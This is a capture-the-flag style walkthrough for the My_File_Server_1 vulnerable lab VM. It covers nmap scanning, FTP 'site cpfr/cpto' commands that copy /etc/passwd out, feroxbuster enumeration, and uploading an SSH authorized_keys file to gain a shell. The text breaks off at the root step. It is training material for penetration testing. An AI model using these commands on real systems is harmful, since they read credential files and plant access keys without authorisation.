









# My_File_Server_1

\

## 

## My_File_Server_1

- **My_File_Server_1** :-

<!-- -->

- Download the machine and import in vm box
  :

<!-- -->

- Go to repo :
  <https://github.com/InfoSecWarrior/Offensive-Pentesting-Lab/tree/main/Vulnerable-OVA>
- Download the machine .

<!-- -->

- Import the machine in virtual box .

- Find the machine ip :

    nmap -sn 192.168.2.0/24 

- Find the available port :

    nmap -v -p- 192.168.2.179

- Now try to login ftp :

    ftp 192.168.2.179

 Show the vsFTPd version .

    ftp 192.168.2.179 2121

- Now again login port 2121 and run the command :

    ftp 192.168.2.179 2121

    ?

    site help

    site cpfr /etc/passwd

    site cpto /var/ftp/pub/passwd

- Now exit and again login :

- Now download the passwd file and see the content :

 Here the passwd file content .

- Visit the ip in browser : <http://192.168.2.179/>

- Find the hidden endpoints :

    feroxbuster -u http://192.168.2.179/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt

- Visit the endpoints : <http://192.168.2.179/index.html>
  <http://192.168.2.179/readme.txt>

- Login ftp with local user :

 After login make .ssh directory not .ss directory .

- Now place rsa key :

    ssh-keygen -b 2048 -t rsa -f ./id_rsa -q -N ""

- id_rsa.pub file place in server :

    cp id_rsa.pub authorized_keys

- In ftp user :

    lcd Downloads

- 

    cd .ssh

- 

    put authorized_keys

- Note : Isme write ki power thi isliye file le gye .

<!-- -->

- Now login with ssh :

    ssh smbuser@192.168.2.179 -i id_rsa

- Login with root :

